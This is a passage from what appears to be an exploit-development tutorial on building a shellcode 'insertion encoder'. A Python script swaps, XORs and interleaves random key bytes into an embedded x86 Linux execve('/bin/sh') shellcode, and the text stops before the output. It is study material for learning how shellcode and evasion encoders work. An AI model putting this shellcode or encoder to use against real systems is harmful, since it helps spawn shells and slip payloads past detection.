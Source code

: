 # Insertion decoder

No lets try an insertion encoder. The idea will be to:

- Take two bytes of the shellcode
- Reverse the order
- Generate a random value
- XOR each byte with the random value
- Insert the random number after the two reversed and xored bytes.

The new shellcode code (without the decoder stub) will be 1.5 longer.

## The encoder

If the shellcode length is not a multiple of two, the shellcode is padded with a NOP (0x90).

```python
#!/usr/bin/python3
import random

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
if len(shellcode) % 2 == 1:
   shellcode += "\x90"

encoded = ""
encoded2 = ""

print('Encoded shellcode ...')
for i in range(int(len(shellcode)/2)):  
   alea = random.randint(1, 255)
   x = ord(shellcode[2*i+1]) ^ alea
   y = ord(shellcode[2*i]) ^ alea

   encoded += '\\x%02x' % x
   encoded += '\\x%02x' % y
   encoded += '\\x%02x' % alea

   encoded2 += '0x'
   encoded2 += '%02x,'  % x
   encoded2 += '0x'
   encoded2 += '%02x,'  % y
   encoded2 += '0x%02x,' % alea

print(encoded)
print(encoded2[:-1])

print('Len: %d' % (len(encoded)/4))
```

Let's generate an encoded shellcode:
